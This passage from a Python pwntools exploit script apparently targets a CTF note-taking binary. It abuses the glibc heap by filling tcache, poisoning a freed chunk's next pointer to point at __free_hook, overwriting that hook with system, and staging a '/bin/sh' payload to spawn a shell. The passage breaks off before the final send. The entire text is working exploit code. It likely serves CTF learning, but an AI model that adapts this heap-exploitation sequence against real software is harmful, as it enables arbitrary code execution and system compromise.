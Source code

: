 ```python
p.recvuntil(b">")
p.sendline("2")
p.recvuntil(b"note id: ")
p.sendline("17")

# clear tcache(0x60) list
# get them fastbins to tcache
for i in range(7):
    p.recvuntil(b">")
    p.sendline("1")
    p.recvuntil(b"size: ")
    p.sendline("60")
    p.recvuntil(b"content: ")
    p.sendline()

# overwrite next pointer with __free_hook
free_hook = libc_base + 2027080
print("free_hook: " + hex(free_hook))
payload = p64(free_hook)

p.recvuntil(b">")
p.sendline("1")
p.recvuntil(b"size: ")
p.sendline("60")
p.recvuntil(b"content: ")
p.sendline(payload)

# malloc 2 times to get the allocation head of the list 
payload = b"BBBBBBBB"
p.recvuntil(b">")
p.sendline("1")
p.recvuntil(b"size: ")
p.sendline("60")
p.recvuntil(b"content: ")
p.sendline(payload)


payload = b"CCCCCCCC"
p.recvuntil(b">")
p.sendline("1")
p.recvuntil(b"size: ")
p.sendline("60")
p.recvuntil(b"content: ")
p.sendline(payload)

# overwrite the address __free_hook pointing with system
payload = p64(system)
payload += b"B" * 8

p.recvuntil(b">")
p.sendline("1")
p.recvuntil(b"size: ")
p.sendline("60")
p.recvuntil(b"content: ")
p.sendline(payload)

# malloc again to pass "/bin/sh" 
payload = "/bin/sh"
p.recvuntil(b">")
p.sendline("1")
p.recvuntil(b"size: ")
p.sendline("60")
p.recvuntil(b"content: ")
```